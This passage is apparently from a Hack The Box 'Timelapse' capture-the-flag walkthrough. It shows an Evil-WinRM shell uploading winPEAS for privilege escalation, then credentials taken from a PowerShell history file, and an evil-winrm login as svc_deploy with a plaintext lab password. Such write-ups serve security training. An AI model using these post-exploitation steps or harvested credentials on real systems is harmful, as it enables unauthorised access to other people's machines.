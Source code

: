```text
*Evil-WinRM* PS C:\> mkdir TEMP


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         8/3/2023   9:19 PM                TEMP


*Evil-WinRM* PS C:\> cd TEMP
*Evil-WinRM* PS C:\TEMP> ls
*Evil-WinRM* PS C:\TEMP> upload ~/Tools/privesc/winPEASx64.exe
Info: Uploading ~/Tools/privesc/winPEASx64.exe to C:\TEMP\winPEASx64.exe

Enter PEM pass phrase:
                                                             
Data: 2581844 bytes of 2581844 bytes copied

Info: Upload successful!
```

Running the executable, winPEAS finds there is a PowerShell history file present. 

![lp_ps.png](../assets/timelapse_assets/lp_ps.png)

Lets check that out:

![creds.png](../assets/timelapse_assets/creds.png)

Nice, we've discovered another pair of credentials. Lets login and use these now:

```text
┌──(ryan㉿kali)-[~/HTB/Timelapse]
└─$ evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

